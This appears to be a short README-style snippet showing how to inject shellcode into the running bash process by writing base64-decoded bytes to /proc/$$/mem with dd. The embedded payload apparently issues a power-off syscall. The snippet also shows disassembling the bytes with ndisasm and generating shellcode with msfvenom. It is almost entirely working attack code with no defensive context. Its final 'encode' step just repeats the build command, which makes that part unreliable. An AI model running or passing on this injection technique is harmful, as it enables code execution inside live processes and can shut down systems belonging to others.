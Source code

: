 

# run shellcode in bash:
```bash
dd of=/proc/$$/mem bs=1 seek=$(($(cut -d" " -f9</proc/$$/syscall))) if=<base64 -d<<<utz+IUO+aRkSKL+t3uH+McCwqQ8F) conv=notrunc
```
# decode it
```bash
base64 -d<<<utz+IUO+aRkSKL+t3uH+McCwqQ8F | ndisasm
```
# build shell code
```bash
msfvenom -p linux/x64/exec CMD='whoami'
```
# base64 encode shell code
```bash
msfvenom -p linux/x64/exec CMD='whoami'
```
